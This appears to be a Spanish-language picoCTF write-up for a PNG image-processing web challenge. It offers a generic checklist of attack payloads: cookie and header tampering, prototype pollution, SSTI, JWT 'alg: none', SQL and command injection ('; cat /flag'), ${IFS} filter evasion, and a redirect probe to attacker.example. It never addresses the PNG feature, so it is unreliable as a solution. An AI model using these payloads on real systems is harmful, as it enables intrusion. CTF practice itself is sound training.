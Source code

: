 #### Description

I found a web app that can help process images: PNG images only!Try it [here](http://atlas.picoctf.net:54713/)!
### **Solución**

**Idea clave:** revisar todo lo que ocurre en el cliente (JS/HTML), endpoints accesibles y cómo el servidor confía en datos controlables (headers, JSON, cookies). Prueba bypasss comunes: tamper en cliente, parámetros ocultos, manipular cookies/roles, template injection, prototype pollution, open-redirect → SSRF, o JSON deserialización insegura.

1. **Recon rápido (web + cliente)**
    

`# listar recursos públicos curl -s -I https://HOST/ | head # revisar robots / sitemap curl -s https://HOST/robots.txt curl -s https://HOST/sitemap.xml # buscar endpoints comunes ffuf -u https://HOST/FUZZ -w /usr/share/wordlists/raft-large-directories.txt -t 40`

2. **Inspecciona HTML / JS (DevTools)**
    

- Ctrl+U y DevTools → Network / Sources.
    
- Busca: comentarios con credenciales, variables JS (`const SECRET = ...`), endpoints ocultos, o funciones que validan en cliente (`if (user.role==='admin') ...`).
    

3. **Tamper de peticiones (Burp / curl)**
    

- Intercepta la login/request y modifica headers:
    

`curl -i -X POST https://HOST/login \   -H "Content-Type: application/json" \   -H "X-Forwarded-For: 1.2.3.4" \   -d '{"email":"ctf-player@picoctf.org","password":"bad"}'`

- Prueba manipular cookies: `role=admin; isAdmin=true`.
    

4. **Prueba payloads rápidos según vectores:**
    

- **Client-side bypass / logic tamper**  
    Inyecta en inputs `{"isAdmin":true}` si la app envía JSON; o cambia `disabled` inputs en DevTools y reenvía.
    
- **Prototype pollution** (si app usa lodash/merge sobre objetos JSON):
    

`{"__proto__":{"isAdmin":true}}`

Envía ese JSON en un endpoint que acepte objetos y luego verifica comportamiento.

- **Template injection / SSTI** (si app renderiza plantillas con variables del usuario):  
    Prueba payloads como `{{7*7}}` o `${7*7}` en inputs y mira respuesta.
    
- **Open redirect → SSRF**  
    Busca parámetros `redirect` y prueba con `?next=http://attacker.example/collect`.
    
- **Header tricks**  
    Cambia `Host`, `X-Forwarded-For`, `X-Original-URL`, `X-User-Role`.
    
- **JWT tamper**  
    Si usan JWT, inúentifica la firma cambiando `alg: none` o modificando payload y resignando si la key está en JS.
    
- **SQL/Command injection** (si inputs van al backend sin sanitizar)  
    Prueba `' OR '1'='1` o `; cat /flag`.
    

5. **Buscar endpoints “trap” / debug**
    

- `/admin`, `/debug`, `/logs`, `/.git`, `/backup`, `/upload`, `/api/internal`.
    
- Explora recursos estáticos (`/static/js/*.js`) — ahí a menudo hay claves o rutas.
    

6. **Instrumentación / runtime**
    

- Ejecuta la app, haz acciones relevantes y revisa `log`/respuestas. Usa `adb`/emulator si es móvil o `frida` para hooks si hay cliente nativo.
    

7. **Confirmar y extraer flag**
    

- Cuando obtengas acceso (p. ej. `isAdmin=true` → acceso a `/admin/secret`), descarga la página y busca `picoCTF{`:
    

`curl -s 'https://HOST/secret' | egrep -o 'picoCTF\{[^}]+\}'`

---

### **Notas adicionales (cortas)**

- Empieza por mirar el **cliente**: muchas “trampas” están allí.
    
- La **prototype pollution** y la **tamper de JSON** son vectores muy efectivos en apps modernas.
    
- Usa Burp Repeater/Intruder para iterar rápido; usa ffuf/dirb para encontrar rutas ocultas.
    
- Si la app filtra caracteres, usa `${IFS}`/concatenaciones para evadir filtros.
    
- Trabaja siempre sólo contra la instancia del reto.
    

---

### **Referencias**

- PayloadsAllTheThings — Prototype Pollution / SSRF / Template Injection examples.
    
- OWASP — Insecure Deserialization / XXE / Injection guides.
    
- Burp Suite / ffuf docs — para tampering y fuzzing.